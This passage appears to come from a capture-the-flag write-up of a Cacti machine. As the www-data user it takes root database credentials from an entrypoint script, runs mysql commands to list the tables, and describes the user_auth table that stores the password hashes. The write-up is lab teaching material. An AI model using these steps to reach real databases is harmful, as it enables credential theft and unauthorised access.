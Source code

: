 Upon inspecting the `/` directory, we encounter the `entrypoint.sh` script, which divulges valuable database information.

```bash
www-data@50bca5e748b0:/var/www/html$ mysql --host=db --user=root --password=root cacti -e "show tables"
< --user=root --password=root cacti -e "show tables"
.
.
SNIP
.
.
snmpagent_managers
snmpagent_managers_notifications
snmpagent_mibs
snmpagent_notifications_log
user_auth
user_auth_cache
user_auth_group
user_auth_group_members
user_auth_group_perms
.
.
SNIP
.
.
```

Among the various tables, the `user_auth` table captures our interest.

```bash
www-data@50bca5e748b0:/var/www/html$ mysql --host=db --user=root --password=root cacti -e "desc user_auth"
<user=root --password=root cacti -e "desc user_auth"
Field   Type    Null    Key     Default Extra
id      mediumint(8) unsigned   NO      PRI     NULL    auto_increment
username        varchar(50)     NO      MUL     0
password        varchar(256)    NO
realm   mediumint(8)    NO      MUL     0
full_name       varchar(100)    YES             0
email_address   varchar(128)    YES             NULL
must_change_password    char(2) YES             NULL
password_change char(2) YES             on
show_tree       char(2) YES             on
show_list       char(2) YES             on
show_preview    char(2) NO              on
graph_settings  char(2) YES             NULL
login_opts      tinyint(3) unsigned     NO              1
policy_graphs   tinyint(3) unsigned     NO              1
policy_trees    tinyint(3) unsigned     NO              1
policy_hosts    tinyint(3) unsigned     NO              1
policy_graph_templates  tinyint(3) unsigned     NO              1
enabled char(2) NO      MUL     on
lastchange      int(11) NO              -1
lastlogin       int(11) NO              -1
password_history        varchar(4096)   NO              -1
locked  varchar(3)      NO
failed_attempts int(5)  NO              0
lastfail        int(10) unsigned        NO              0
reset_perms     int(10) unsigned        NO              0
```
